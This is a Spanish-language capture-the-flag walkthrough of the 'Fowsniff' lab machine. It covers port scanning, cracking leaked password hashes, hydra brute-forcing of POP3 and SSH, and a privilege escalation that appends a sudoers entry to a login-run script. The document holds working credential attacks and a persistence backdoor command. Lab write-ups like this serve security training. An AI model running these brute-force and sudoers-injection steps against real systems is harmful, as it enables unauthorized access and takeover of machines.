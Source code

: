 # Fowsniff

## Initial Scan
```
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) TOP USER PIPELINING UIDL AUTH-RESP-CODE CAPA RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: post-login Pre-login capabilities more listed ID have IDLE AUTH=PLAINA0001 ENABLE SASL-IR OK LITERAL+ LOGIN-REFERRALS IMAP4rev1
```

## Enum

### HTTP

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/images (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```
Parece que aquí esta todo correcto, veamos las RRSS de la empresa

### RRSS

```
https://twitter.com/fowsniffcorp
```
Parece que les han pawneado veamos mas a fondo
```
https://pastebin.com/NrAqVeeX
```
Tenemos una serie de hashes, veamos cuales desencriptamos
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
Veamos cuales podemos crackear con crackstation
```
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```
Solo nos falta la pass de stone, el sysadmin

## Pop3

Generamos una wordlist con los users y passwords hallados y testamos en el pop3

```bash
 pj@THM$ hydra -L users.txt -P pass.txt 10.10.208.167 pop3
 [110][pop3] host: 10.10.208.167   login: seina   password: scoobydoo2
```
Entremos
```pop3
pj@crow-foot:~$ nc 10.10.208.167 110
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
RETR 1
 +++++++++++++++++++++
 The temporary password for SSH is "S1ck3nBluff+secureshell"
 +++++++++++++++++++++
```
### SSH

Entramos en 

```
pj@THM$ hydra -L users.txt -p "S1ck3nBluff+secureshell" 10.10.208.167 ssh
[22][ssh] host: 10.10.208.167   login: baksteen   password: S1ck3nBluff+secureshell
```

## Privesc

Una vez dentro
```
baksteen@fowsniff:~/Maildir$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```
El grupo users es sospechoso 
```
baksteen@fowsniff:~/Maildir$ find / -group users 2> /dev/null
/opt/cube/cube.sh
```
Veamos el script 
```
baksteen@fowsniff:~/Maildir$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"
```
Así mejor 

```
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

echo 'baksteen  ALL=(ALL:ALL) ALL' >> /etc/sudoers 
```
Mirando el 00-header vemos que se invoca al script cada vez que alguien se logea,veamos si podemos explotar esto

Ahora salimos y entramos de nuevo con la diferencia de que:
```
User baksteen may run the following commands on fowsniff:
    (ALL : ALL) ALL
```
